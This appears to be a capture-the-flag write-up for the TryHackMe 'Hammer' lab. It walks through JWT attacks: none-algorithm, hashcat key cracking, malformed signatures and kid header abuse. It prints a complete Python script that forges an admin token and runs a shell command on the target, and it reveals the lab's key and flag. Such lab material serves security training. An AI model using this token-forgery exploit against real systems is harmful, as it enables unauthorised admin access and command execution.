

# Retrieving the flag

## Exploring RCE

From the dashboard page (/`dashboard.php`), I tried executing a few common commands such as `whoami`, `id`, `pwd`, etc.

It appears that the application only allows the `ls` command. From the output, I noticed an interesting file: `188ade1.key`.

<figure><figcaption></figcaption></figure>

Visiting the URL at `/188ade1.key` downloads a file with the content:&#x20;

```
56058354efb3daa97ebab00fabd7a7d7
```

## Exploiting JWT

Upon analysis of the retrieved JWT token value ([http://jwt.io/](http://jwt.io/)), I noticed that the `kid` field present in the headers. Moreover, I noticed the `role` field in the payload, which controls the user role. The goal will be to change this value to a higher privilege user such as `admin`.

Based on the OWASP WSTG testing guide ([https://github.com/OWASP/wstg/blob/master/document/4-Web\_Application\_Security\_Testing/06-Session\_Management\_Testing/10-Testing\_JSON\_Web\_Tokens.md](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens.md)), I decided to test the JWT based vulnerabilities.

**The following Python script will be used for the test:**

```python
import requests
import jwt

class JWT_KID_EXPLOIT():
    s = requests.Session()
    PORT = 1337
    email = 'tester@hammer.thm'
    password = 'xxx' # password you have reset to

    def __init__(self, IP):
        self.IP = IP
        self.URL = f'http://{IP}:{self.PORT}'

    def login(self):
        self.s.post(f'{self.URL}/index.php',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'},
                    data={'email': self.email,
                          'password': self.password})

    def start(self):
        # login
        self.login()

        key = '...'

        payload = {
            "iss": "http://hammer.thm",
            "aud": "http://hammer.thm",
            "iat": 1748754378,
            "exp": 1749757978,
            "data": {
                "user_id": 1,
                "email": "tester@hammer.thm",
                "role": "admin"
            }
        }
        headers = {
            "typ": "JWT",
            "alg": "HS256",
            "kid": "/var/www/mykey.key"
        }

        token = jwt.encode(payload, key, algorithm='HS256', headers=headers)
        command = 'xxx'  # command to read flag

        print(f'[INFO] token={token}')

        res = self.s.post(f'{self.URL}/execute_command.php',
                          headers={
                              'Content-Type': 'application/json', 'Authorization': f'Bearer {token}'},
                          json={
                              'command': command
        })

        print(f'[INFO] {res.status_code}')
        print(f'[INFO] {res.text}')


IP = input('[!] Enter the target IP address: ')

jwt_exploit = JWT_KID_EXPLOIT(IP)
jwt_exploit.start()
```

### 1. Signature Verification

#### The _none_ algorithm

The JWT specification defines a signature algorithm called `none`. This means that there is no signature for the JWT, allowing the payload to be modified without any signing keys.

Change the `alg` value in the headers field in the script above to `none:`

```python
headers = {
    "typ": "JWT",
    "alg": "none",
    "kid": "/var/html/mykey.key"  
}
```

**Output from Python script:**

`Error message: Invalid token: Algorithm not supported`

<figure><figcaption></figcaption></figure>

### 2. Weak HMAC Keys

...

#### Default HMAC signing key (`firebase/php-jwt)`&#x20;

From our previous enumeration, we have found out that the application uses `firebase/php-jwt v6.10.0` (refer to [https://jarrettgxz-sec.gitbook.io/offensive-security-concepts/write-ups/tryhackme/hammer/enumeration-active-recon/further-directory-discovery](https://jarrettgxz-sec.gitbook.io/offensive-security-concepts/write-ups/tryhackme/hammer/enumeration-active-recon/further-directory-discovery)).&#x20;

However, from research, it appears that this package does not employ any default signing keys.&#x20;

#### Brute force cracking of the HMAC key

Utilizing hashcat, I attempted to brute force the key using two wordlists from Daniel Miessler's SecLists:

a) [rockyou.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz)

b) [scraped JWT secrets](https://github.com/danielmiessler/SecLists/blob/master/Passwords/scraped-JWT-secrets.txt)



```bash
$ echo <jwt> > jwt.txt

$ hashcat -m 16500 -a 0 jwt.txt rockyou.txt
$ hashcat -m 16500 -a 0 jwt.txt scraped-jwt-secrets.txt
```

The brute force attempt failed, and we are unable to find the valid signing key.

#### Malformed signature

Remove the jwt.encode() line, and retrieve the token from the existing cookies instead. To malform the signature, remove the last character from the token.

<pre class="language-python"><code class="lang-python"><strong>token = self.s.cookies.get('token')
</strong><strong>token = token[:-1] # remove the last character
</strong></code></pre>

Output:

<figure><figcaption></figcaption></figure>

### 3. Vulnerable `kid` header value

In this application which uses a symmetric key, the `kid` value defines the path used to look up a value to be used as the signing key.

I attempted to change the kid value to `188ade1.key`, and encode a new JWT with the content of that file.

```python
 key = '56058354efb3daa97ebab00fabd7a7d7'
 
 headers = {
   "typ": "JWT",
   "alg": "HS256",
   "kid": "188ade1.key"  # changed from '/var/html/mykey.key' -> '188ade1.key'
 }
 
 command = 'cat /home/ubuntu/flag.txt'
```

With the command: `cat /home/ubuntu/flag.txt`, I was able to retrieve the flag!

<figure><figcaption></figcaption></figure>

We have found the answer to the final question: "_What is the content of the file /home/ubuntu/flag.txt?_": `THM{RUNANYCOMMAND1337}` .


**FINAL Python script:**

```python
import requests
import jwt

class JWT_KID_EXPLOIT():
    s = requests.Session()
    PORT = 1337
    email = 'tester@hammer.thm'
    password = 'xxx' # password you have reset to

    def __init__(self, IP):
        self.IP = IP
        self.URL = f'http://{IP}:{self.PORT}'

    def login(self):
        self.s.post(f'{self.URL}/index.php',
                    headers={'Content-Type': 'application/x-www-form-urlencoded'},
                    data={'email': self.email,
                          'password': self.password})

    def start(self):
        # login
        self.login()

        key = '56058354efb3daa97ebab00fabd7a7d7'

        payload = {
            "iss": "http://hammer.thm",
            "aud": "http://hammer.thm",
            "iat": 1748754378,
            "exp": 1749757978,
            "data": {
                "user_id": 1,
                "email": "tester@hammer.thm",
                "role": "admin"
            }
        }
        headers = {
            "typ": "JWT",
            "alg": "HS256",
            "kid": "188ade1.key"
        }

        token = jwt.encode(payload, key, algorithm='HS256', headers=headers)
        command = 'cat /home/ubuntu/flag.txt'  # command to read flag

        print(f'[INFO] token={token}')

        res = self.s.post(f'{self.URL}/execute_command.php',
                          headers={
                              'Content-Type': 'application/json', 'Authorization': f'Bearer {token}'},
                          json={
                              'command': command
        })

        print(f'[INFO] {res.status_code}')
        print(f'[INFO] {res.text}')


IP = input('[!] Enter the target IP address: ')

jwt_exploit = JWT_KID_EXPLOIT(IP)
jwt_exploit.start()
```
